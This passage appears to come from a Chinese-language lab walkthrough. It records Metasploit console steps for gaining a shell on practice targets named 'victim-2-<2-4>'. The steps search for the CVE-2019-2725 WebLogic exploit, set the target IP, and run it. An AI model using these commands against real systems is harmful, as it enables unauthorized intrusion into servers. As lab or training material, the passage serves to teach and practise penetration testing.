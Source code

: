 返回404

网络层能访问正常开启，应用层不存在。

2. 攻破靶标 `victim-2-<2-4>`


```bash
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
```
![](../img/Dracuspicy/68.png)

```bash
# 分别 run
run -j
```

